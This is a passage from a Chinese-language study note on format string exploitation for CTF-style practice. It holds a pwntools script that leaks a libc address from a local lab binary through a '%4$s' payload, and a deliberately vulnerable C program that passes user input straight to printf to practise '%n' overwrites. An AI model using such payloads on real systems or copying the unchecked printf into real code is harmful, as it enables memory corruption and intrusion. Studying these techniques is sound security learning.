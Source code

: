 ```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process('./leakmemory')
elf = ELF('./leakmemory')
__isoc99_scanf_got = elf.got['__isoc99_scanf']
payload = flat([__isoc99_scanf_got,'%4$s'])
p.sendline(payload)
p.recvuntil('%4$s\n')
addr = hex(u32(p.recv()[4:8]))
print(addr)

```



![image-20220117131915774](格式化字符串学习.assets/image-20220117131915774.png)

## 覆盖内存

泄露内存利用的是`%n`。

```
%n,不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。
```



```c
/*overwrite.c */
#include <stdio.h>
int a = 123, b = 456;
int main() {
  int c = 789;
  char s[100];
  printf("%p\n", &c);
  scanf("%s", s);
  printf(s);
  if (c == 16) {
    puts("modified c.");
  } else if (a == 2) {
    puts("modified a for a small number.");
  } else if (b == 0x12345678) {
    puts("modified b for a big number!");
  }
  return 0;
}
```
